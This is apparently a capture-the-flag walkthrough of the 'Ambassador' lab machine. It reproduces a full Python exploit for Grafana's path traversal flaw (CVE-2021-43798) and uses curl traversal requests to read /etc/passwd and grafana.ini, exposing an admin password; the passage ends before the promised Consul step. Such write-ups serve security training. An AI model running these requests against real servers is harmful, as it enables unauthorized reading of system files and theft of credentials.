



<br />


<br />

OS -> Linux.

Difficulty -> Medium.

# Introduction:

<br />

Hello hackers! Today, we’ll tackle the Ambassador Machine, a medium-difficulty Linux challenge. We’ll start by exploiting an LFI in Grafana to access configuration files, allowing us to retrieve credentials for a database and gain access to the machine. Once inside, we’ll exploit an RCE in Consul to achieve root access.

<br />

# Enumeration:

<br />

As always we are going to start with a nmap scan to enumerate de open ports and services running on the victim machine:

<br />

```bash
❯ nmap -p- 10.10.11.183 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 14:30 CET
Nmap scan report for 10.10.11.183
Host is up (0.047s latency).
Not shown: 65428 closed tcp ports (reset), 103 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)
|   256 80:a4:c5:2e:9a:b1:ec:da:27:64:39:a4:08:97:3b:ef (ECDSA)
|_  256 f5:90:ba:7d:ed:55:cb:70:07:f2:bb:c8:91:93:1b:f6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ambassador Development Server
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Hugo 0.94.2
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 04 Jan 2025 11:30:59 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 04 Jan 2025 11:30:28 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 04 Jan 2025 11:30:33 GMT
|_    Content-Length: 0
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 9
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, SupportsLoadDataLocal, LongPassword, LongColumnFlag, Speaks41ProtocolOld, SupportsTransactions, DontAllowDatabaseTableColumn, ODBCClient, InteractiveClient, Speaks41ProtocolNew, SupportsCompression, FoundRows, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SwitchToSSLAfterHandshake, IgnoreSigpipes, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x15;~<P?X4 \x7FE\x0F\x0B\x1F\x019\x16\x0Fo\x01
|_  Auth Plugin Name: caching_sha2_password
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=1/4%Time=677937F4%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x2
SF:0text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad
SF:\x20Request")%r(GetRequest,174,"HTTP/1\.0\x20302\x20Found\r\nCache-Cont
SF:rol:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nExp
SF:ires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\r\nSet-Cookie
SF::\x20redirect_to=%2F;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Cont
SF:ent-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Prote
SF:ction:\x201;\x20mode=block\r\nDate:\x20Sat,\x2004\x20Jan\x202025\x2011:
SF:30:28\x20GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Foun
SF:d</a>\.\n\n")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-
SF:Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n40
SF:0\x20Bad\x20Request")%r(HTTPOptions,12E,"HTTP/1\.0\x20302\x20Found\r\nC
SF:ache-Control:\x20no-cache\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nP
SF:ragma:\x20no-cache\r\nSet-Cookie:\x20redirect_to=%2F;\x20Path=/;\x20Htt
SF:pOnly;\x20SameSite=Lax\r\nX-Content-Type-Options:\x20nosniff\r\nX-Frame
SF:-Options:\x20deny\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x20
SF:Sat,\x2004\x20Jan\x202025\x2011:30:33\x20GMT\r\nContent-Length:\x200\r\
SF:n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent
SF:-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n4
SF:00\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP
SF:/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20chars
SF:et=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSe
SF:ssionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-
SF:Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n40
SF:0\x20Bad\x20Request")%r(FourOhFourRequest,1A1,"HTTP/1\.0\x20302\x20Foun
SF:d\r\nCache-Control:\x20no-cache\r\nContent-Type:\x20text/html;\x20chars
SF:et=utf-8\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cach
SF:e\r\nSet-Cookie:\x20redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity\.t
SF:xt%252ebak;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Content-Type-O
SF:ptions:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Protection:\x20
SF:1;\x20mode=block\r\nDate:\x20Sat,\x2004\x20Jan\x202025\x2011:30:59\x20G
SF:MT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Found</a>\.\n\
SF:n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.35 seconds
```

<br />

On the one hand we have the 22 and 80 ports open as usual.

But on the other hand we have port 3000 which could be hosting some website and 3306, which as we know is the default port of mysql, so maybe in the future, we can gain access to some database if we get valid credentials.

<br />

# Http Enumeration -> Port 80:

<br />

We proceed to list the website that runs through port 80, which in this case, is a fairly simple website with nothing interesting:

<br />



<br />

# Http Enumeration -> Port 3000:

<br />

As I said before, port 3000 could also be running a web service. Well, when we list it, we see that indeed, as soon as we enter, we find a Grafana 8.2.0 login panel:

<br />



<br />

We tried default credentials like admin:admin as always, but nothing, it doesn't work.

<br />

# Grafana Vulnerable Version (Path Traversal):

<br />

The version in use of Grafana is 8.2.0, so we do some research and find an article where it tells us that Grafana versions 8.0.0-beta1 through 8.3.0 are vulnerable to a Path Traversal:

<br />



<br />

We found a Python exploit for Grafana 8.3.0 with a Path Traversal vulnerability and analyzed it to exploit it manually, as a real pro.

<br />

```bash
❯ searchsploit grafana
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                                                                                                              | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                                                                          | multiple/webapps/50581.py
```

 <br />

## Exploit Analysis:

<br />

The exploit essentially enters a while-true loop, repeatedly substituting a random plugin from the list in each GET request until it receives a status code of 200, indicating the file has been successfully retrieved.

<br />

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
```

<br />

Instead of using the script, I will randomly select a plugin from the list and attempt to access the URL on Ambassador using curl. I will use the path-as-is option to prevent curl from correcting paths like ../. This successfully retrieves /etc/passwd, confirming file access.

<br />

```bash
❯ curl -s -X GET "http://10.10.11.183:3000/public/plugins/welcome/../../../../../../../../../../../../../etc/passwd" --path-as-is
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```

<br />

# Grafana Configuration Files:

<br />

Now that we have an LFI, we proceed to list the paths of the most interesting files of this software to try to get credentials or something interesting:

<br />

## grafana.ini (/etc/grafana/grafana.ini):

<br />

Grafana stores its configuration in the grafana.ini file, so we proceed to list this file:

<br />

```bash
❯ curl -s -X GET "http://10.10.11.183:3000/public/plugins/welcome/../../../../../../../../../../../../../etc/grafana/grafana.ini" --path-as-is
##################### Grafana Configuration Example #####################
#
# Everything has defaults so you only need to uncomment things you want to
# change

# possible values : production, development
;app_mode = production

# instance name, defaults to HOSTNAME environment variable value or hostname if HOSTNAME var is empty
;instance_name = ${HOSTNAME}

#################################### Paths ####################################
```

<br />

Once we have checked that the file exists, we proceed to list it again but by the word "password" and.... Surprise!! We have the password to the Grafana login panel!

<br />

```bash
❯ curl -s -X GET "http://10.10.11.183:3000/public/plugins/welcome/../../../../../../../../../../../../../etc/grafana/grafana.ini" --path-as-is | grep password
# You can configure the database connection by specifying type, host, name, user and password
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password =
# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
;password_hint = password
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password =
; basic_auth_password =
;password =
```

<br />
